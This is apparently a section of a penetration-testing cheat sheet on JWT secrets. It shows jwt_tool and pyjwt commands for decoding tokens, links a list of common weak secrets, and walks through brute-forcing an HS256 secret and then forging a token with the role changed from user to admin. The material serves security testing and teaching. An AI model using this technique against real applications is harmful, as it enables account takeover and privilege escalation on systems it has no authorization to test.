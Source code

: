 
## JWT Secret

> To create a JWT, a secret key is used to sign the header and payload, which generates the signature. The secret key must be kept secret and secure to prevent unauthorized access to the JWT or tampering with its contents. If an attacker is able to access the secret key, they can create, modify or sign their own tokens, bypassing the intended security controls.

### Encode and Decode JWT with the secret

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool): 
    ```ps1
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds -T
    
    Token header values:
    [+] alg = "HS256"
    [+] typ = "JWT"

    Token payload values:
    [+] name = "John Doe"
    ```
* Using [pyjwt](https://pyjwt.readthedocs.io/en/stable/): `pip install pyjwt`
    ```python
    import jwt
    encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256')
    jwt.decode(encoded, 'secret', algorithms=['HS256']) 
    ```

### Break JWT secret

Useful list of 3502 public-available JWT: [wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list), including `your_jwt_secret`, `change_this_super_secret_random_string`, etc.


#### JWT tool

First, bruteforce the "secret" key used to compute the signature using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number (or 0 to Continue):
> 0
```
